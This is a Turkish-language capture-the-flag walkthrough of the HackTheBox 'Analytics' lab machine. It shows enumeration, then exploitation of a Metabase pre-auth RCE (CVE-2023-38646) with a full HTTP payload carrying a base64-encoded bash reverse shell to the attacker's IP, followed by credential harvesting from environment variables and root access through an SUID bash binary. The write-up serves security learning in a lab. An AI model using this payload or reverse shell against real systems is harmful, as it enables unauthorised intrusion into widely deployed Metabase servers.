

# Analytics

## User Flag

!!! info "Target IP Address"

    10.10.11.233

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
nmap 10.10.11.233 -sC -sV
```

```text title="Output" hl_lines="6 10"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-15 14:05 +03
Nmap scan report for 10.10.11.233
Host is up (1.1s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
5904/tcp filtered ag-swim
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 949.66 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde [http://analytical.htb](http://analytical.htb) isimli bir sayfaya yönlendirildim.

Bu adresi `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.233 analytical.htb" | sudo tee -a /etc/hosts
```

Ardından Gobuster aracı ile vHost numaralandırma girişiminde bulundum:

```bash
gobuster vhost --append-domain -u analytical.htb -w /opt/useful/SecLists/Discovery/Web-Content/common.txt
```

```text title="Output" hl_lines="15"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://analytical.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/SecLists/Discovery/Web-Content/common.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: data.analytical.htb Status: 200 [Size: 77883]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

Burada bulunan adresi de `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.233 data.analytical.htb" | sudo tee -a /etc/hosts
```

Bu adrese gittiğimde Metabase ile ilgili bir Login sayfasıyla ([http://data.analytical.htb/auth/login](http://data.analytical.htb/auth/login)) karşılaştım:



Yeni bulunan adres için Gobuster dizin numaralandırma girişiminde bulunduğumda aşağıdaki hata ile karşılaştım:

```text
Error: the server returns a status code that matches the provided options for non existing urls. http://data.analytical.htb/f08e9427-c322-4095-8b2c-4654cd7d10c5 => 200 (Length: 77894). To continue please exclude the status code or the length
```

Gobuster, geçerli olmayan bir URL ile bağlantı denemesinde bulunduğunda 200 başarı mesajı alıyor ve bu yüzden hata veriyor. Kısa bir araştırmadan sonra sunucunun bu şekilde davranacak şekilde kurulabileceğini öğrendim. Geçerli olmayan bir URL isteğinde bulunduğumuzda dahi 200 yanıtını döndürüyor.

Gobuster aracının denediği geçersiz URL adresine gidip Burp ile bu bağlantı arasına girdim. Ardından bağlantıyı birkaç kez normal şekilde Forward ettiğimde, bağlantının `api/setup/properties` dizinine uğradığını fark ettim. Kısa bir Google aramasından sonra, bu dizinde bulunan ve halka açık olarak bulunmaması gereken `setup-token` bilgisinin erişilebilir olduğunu öğrendim ([CVE-2023-38646](https://nvd.nist.gov/vuln/detail/CVE-2023-38646)).

Bu `setup-token` bilgisini aşağıdaki komut ile elde ettim:

```bash
echo $(curl -s -H "Content-Type: application/json" http://data.analytical.htb/api/session/properties | jq -r '.["setup-token"]')
```

```text title="Output"
249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```

Kullanabileceğim bir PoC için arama gerçekleştirdiğimde [bu](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) site ile karşılaştım. Bulduğum PoC kodunu kendime göre düzenledim:

```json title="PoC" hl_lines="7 20"
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 820

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

Burada Base64 ile kodlanmış olarak gözüken değer (`YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK`) reverse shell almak için kullanılacak olan payload (`bash -i >&/dev/tcp/10.10.14.45/4444 0>&1`) kodudur.

Bu PoC kodunu kullanabilmek için ilk önce [http://data.analytical.htb/auth/login](http://data.analytical.htb/auth/login) adresine gidip bağlantıyı Burp ile yakaladım. Yakaladığım bağlantıyı Burp Repeater kısmına gönderdikten sonra Request kısmını bu PoC bilgisi ile güncelledim. Send ile göndermeden önce Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

Bunun ardından Send ile gönderdiğimde Netcat dinleyici üzerinde shell elde edebildim:

```text title="Output"
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.233] 55382
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
d12f07ea59fe:/$
```

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

İçinde bulunduğum dizinde herhangi bir bayrak dosyası yoktu, bu yüzden farklı denemelerde bulundum. Nihayetinde aşağıda verdiğim kod parçası beni tekrardan doğru yola soktu:

```bash
find / -name *env 2> /dev/null
```

```text title="Output" hl_lines="3"
/bin/printenv
/usr/bin/env
/usr/lib/bash/printenv
/.dockerenv
```

Arama sonuçlarından elde ettiğim bilgilerden yola çıkarak `printenv` komutunu kullandım ve bu komut bana aşağıdaki çıktıyı sağladı:

```text title="Output" hl_lines="13 14"
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=d12f07ea59fe
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
OLDPWD=/home/metabase
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
```

Elde ettiğim kullanıcı adı ve parola bilgisi ile reverse shell dışında bir SSH bağlantısı gerçekleştirdim:

```bash
ssh metalytics@analytical.htb
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat user.txt
```

## Root Flag

Yanlış yapılandırılmış SUID etiketli çalıştırılabilir bir dosya olup olmadığını öğrenmek amacıyla aşağıdaki aramayı gerçekleştirdim:

```bash
find / -perm /4000 -exec ls -l {} \; 2> /dev/null
```

```text title="Output" hl_lines="1"
-rwsr-xr-x 1 root metalytics 1396520 Jan 15 14:38 /var/tmp/bash
-rwsr-xr-x 1 root root 40496 Nov 24  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 72072 Nov 24  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 44808 Nov 24  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 35200 Mar 23  2022 /usr/bin/fusermount3
-rwsr-xr-x 1 root root 232416 Apr  3  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 59976 Nov 24  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 72712 Nov 24  2022 /usr/bin/chfn
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

İlk bulunan sonuç çok umut vericiydi. Bu sebeple bu dosyayı, [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#suid) sayfasında bahsedildiği şekilde çalıştırdım (privileged mode) ve bu sayede `root` kullanıcısı olabildim:

```bash
/var/tmp/bash -p
```

Yüksek yetkilere sahip shell içerisinde aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat /root/root.txt
```
